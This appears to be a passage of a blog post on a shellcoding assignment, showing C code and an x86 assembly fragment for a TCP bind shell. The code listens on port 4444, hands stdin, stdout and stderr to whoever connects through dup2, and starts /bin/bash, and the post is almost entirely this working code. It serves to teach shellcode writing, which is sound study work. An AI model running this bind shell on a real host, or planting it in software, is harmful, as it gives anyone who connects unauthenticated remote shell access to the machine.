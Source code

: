 ### C Code

After finishing the second assignment, I noticed the shellcode I wrote uses too many instructions. To be more specific, the final block (`recv-memset-system`) is superfluous. In fact, once you redirect `stdin`, `stdout` and `stderr`, you can simply spawn a shell and the job is done:

```cpp
#include <netinet/ip.h>

int main() {
    int server_socket_fd, client_socket_fd, size_client_socket_struct;
    struct sockaddr_in server_address, client_address;

    // create a TCP socket
    server_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

    server_address.sin_family = AF_INET;
    server_address.sin_addr.s_addr = INADDR_ANY;
    server_address.sin_port = htons(4444);

    // bind the socket to 0.0.0.0:4444
    bind(server_socket_fd, (struct sockaddr *)&server_address, sizeof(server_address));

    // passive socket that listens for connections
    listen(server_socket_fd, 1);

    // accept incoming connection
    size_client_socket_struct = sizeof(struct sockaddr_in);
    client_socket_fd = accept(server_socket_fd, (struct sockaddr *)&client_address, (socklen_t *)&size_client_socket_struct);

    dup2(client_socket_fd, 0);
    dup2(client_socket_fd, 1);
    dup2(client_socket_fd, 2);

    system("/bin/bash");
}
```

### Assembly

Here's the assembly code that starts from the `RepeatDuplicate` label:

```nasm
RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov eax, 63

    ; Client file descriptor
    mov ebx, edi

    ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate

```